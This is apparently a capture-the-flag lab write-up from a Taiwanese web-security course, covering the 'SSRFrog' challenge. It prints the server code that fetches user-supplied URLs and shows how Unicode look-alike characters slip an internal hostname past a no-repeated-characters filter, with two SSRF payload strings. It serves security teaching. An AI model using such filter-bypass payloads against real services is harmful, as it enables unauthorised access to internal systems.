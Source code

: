 ```yaml
---
title: Simple Web 0x13(Lab - SSRFrog)
tags: [NTUSTWS, CTF, Web]

category: "Security/Course/NTUST WS/SSRF"
---
```


# Simple Web 0x13(Lab - SSRFrog)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:8501/

## Background
[javascript Set()](https://pjchender.dev/javascript/js-set/)
[Web Hacking | 續章【EDU-CTF 2021】](https://youtu.be/hWC-Evt-sBc?t=9867)
[網站安全🔒 伺服器端請求偽造 SSRF 攻擊 — 「項莊舞劍，意在沛公」](https://medium.com/程式猿吃香蕉/網站安全-伺服器請求偽造-ssrf-攻擊-項莊舞劍-意在沛公-7a5524926362)

## Source code
:::spoiler source code
```javascript=
const express = require("express");
const http = require("http");

const app = express();

app.get("/source", (req, res) => {
    return res.sendFile(__filename);
})
app.get('/', (req, res) => {
    const { url } = req.query;
    if (!url || typeof url !== 'string') return res.sendFile(__dirname + "/index.html");

    // no duplicate characters in `url`
    if (url.length !== new Set(url).size) return res.sendFile(__dirname + "/frog.png");

    try {
        http.get(url, resp => {
            resp.setEncoding("utf-8");
            resp.statusCode === 200 ? resp.on('data', data => res.send(data)) : res.send(":(");
        }).on('error', () => res.send("WTF?"));
    } catch (error) {
        res.send("WTF?");
    }
});

app.listen(3000, '0.0.0.0');
```
:::
* Simply speaking, it'll call a `Set()` object that will filter duplicate characters
* We also can find the hint in page source
![](https://i.imgur.com/AxoVKnp.png)

## Exploit
1. The hint said flag is on `http://the.c0o0o0l-fl444g.server.internal:80`, so we need to meet the first requirement - every single character is unique.
We can use [Domain Obfuscator](https://splitline.github.io/domain-obfuscator/) to replace the similar characters.
2. Payload
`htTp:/\ⓉₕE．ℭ⓪ᴼ₀o０Ⅼ-Ⓕｌ₄4４ⓖ｡ₛⒺʳⓋₑⓇ.㏌ₜｅᴿ㎁ˡ`
`htTp:/\ⓉｈE。Ⅽ⁰ₒ０O0ℓ-ｆᴸ④４⁴G．ＳＥRｖⅇⓡ.ⁱNｔₑrｎAℒ`

## Reference
[SSRFrog](https://ctftime.org/writeup/25763)
[Punycode converter](https://www.punycoder.com/)